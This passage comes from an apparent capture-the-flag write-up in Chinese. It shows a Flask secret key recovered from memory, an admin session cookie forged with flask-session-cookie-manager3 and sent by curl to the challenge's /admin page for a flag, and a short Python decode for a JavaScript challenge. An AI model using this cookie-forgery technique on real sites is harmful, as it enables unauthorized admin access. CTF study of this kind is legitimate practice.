 ```shell
$ python3 main.py      
Found in entry(start='7fc49d4bd000', end='7fc49d5f7000', permission='rw-p')
Secret key: 8566ab45fb1249688ab31f8b0a00083f*abcdefgh
```

然后就是 session 伪造，工具一把梭：

```shell
$ flask-session-cookie-manager3 encode -s '8566ab45fb1249688ab31f8b0a00083f*abcdefgh' -t '{"admin":1}'
eyJhZG1pbiI6MX0.Z4o6dw.KreVENRWnKHCnu0xvrpIzN8U79E

$ curl -H 'Cookie: session=eyJhZG1pbiI6MX0.Z4o6dw.KreVENRWnKHCnu0xvrpIzN8U79E' 'http://61.147.171.105:52143/admin'
catctf{Catch_the_c4t_HaHa}
```

flag: `catctf{Catch_the_c4t_HaHa}`

### simple_js

。。。

```python
s: str = '\x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30'

ans: str = ''.join([chr(int(_)) for _ in s.split(',')])

print(ans)
```

flag: `Cyberpeace{786OsErtk12}`